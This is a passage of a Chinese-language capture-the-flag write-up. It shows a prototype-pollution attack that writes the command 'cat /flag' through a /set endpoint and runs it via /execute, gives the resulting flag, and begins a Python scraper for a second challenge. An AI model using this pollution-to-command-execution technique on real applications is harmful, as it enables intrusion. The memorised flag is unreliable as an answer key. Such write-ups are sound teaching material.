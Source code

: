 这里尝试修改cmd的属性，那么怎么改呢？

看一下 `/set` 部分

```javascript
app.post("/set", (req, res) => {
  const { key, value } = req.body;

  const keys = key.split(".");
  let current = store;

  for (let i = 0; i < keys.length - 1; i++) {
    const key = keys[i];
    if (!current[key]) {
      current[key] = {};
    }
    current = current[key];
  }

  // 设置最后一个键的值
  current[keys[keys.length - 1]] = value;

  res.json({ message: "OK" });
});
```

我们不妨直接走一下`Object`原型污染，将`key`设置为`__proto__.yushengjun`，`value`设置为`cat /flag`，然后访问`/execute?cmd=yushengjun`即可得到flag。

flag: `flag{n0_pr0topOIl_50_U5E_new_Map_1n5teAD_Of_0bject2kv_aca1c334b1}`

## PaoluGPT

不多说，上python脚本。

```python
import requests
from bs4 import BeautifulSoup
import concurrent.futures
from tqdm import tqdm

url = "https://chal01-xxxxxx.hack-challenge.lug.ustc.edu.cn:8443/list"

header = {
    "cookie": "yushengjun"
}

response = requests.get(url, headers=header)

soup = BeautifulSoup(response.text, "html.parser")
conversation_id = []
for a in soup.find_all("a"):
    if a.get("href").startswith("/view?conversation_id="):
        conversation_id.append(a.get("href").split("=")[1])

print(conversation_id)

conversation_url = "https://chal01-xxxxxx.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id="
found_flags = []

def fetch_flag(conversation_id):
    response = requests.get(conversation_url + conversation_id, headers=header)
    if "flag" in response.text:
        found_flags.append(conversation_id)
        return response.text
```